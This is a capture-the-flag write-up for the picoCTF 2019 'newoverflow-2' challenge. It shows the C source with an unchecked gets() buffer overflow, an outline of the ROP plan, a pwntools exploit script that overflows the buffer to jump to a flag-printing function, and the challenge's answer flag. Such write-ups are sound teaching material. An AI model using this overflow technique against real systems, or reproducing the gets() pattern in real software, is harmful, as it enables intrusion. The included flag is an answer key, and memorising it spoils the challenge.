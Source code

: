 ![title](images/title.png)

<details>
	<summary>vuln.c source</summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }


  

}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}

```
</details>

Similiar to the earlier newoverflow we will need to overflow the buffer and return to the win function (named win_fn) but first we must set win1 and win2 to true but calling their respective functions.

Steps:

1. Find the buffer amount to control EIP
2. Return to function win_fn1 with arg 0xDEADBEEF to set win1 to true and set the return function back to main
3. Return to win_fn2 with 3 arg checks according to the source code to set win2 to true then return to main.
4. Finally, return to the win_fn and hopefully pop the flag. 

Due to no pop rdx; ret gadget existing I had to cheat a little and use the flag function that was left in the program

<details>
	<summary>exploit</summary>

```python
#!/usr/bin/env python

from pwn import *
from getpass import getpass
import sys

#load elf binary to var e and grab addys
e = ELF('./vuln')
flag = e.symbols['flag']
main = e.symbols['main']


#connect and load process
ssh = ssh(host='2019shell1.picoctf.com', user='ems3t', password=getpass())
p = ssh.process('vuln', cwd='/problems/newoverflow-2_4_2cbec72146545064c6623c465faba84e')


#build and send payload
payload = ''
payload+= 'A'*72
payload+= p64(main)
payload+= p64(flag)
p.sendlineafter('?\n', payload)
p.interactive()

```
</details>

<details>
	<summary>Flag</summary>

picoCTF{r0p_1t_d0nT_st0p_1t_df73a1da}
</details>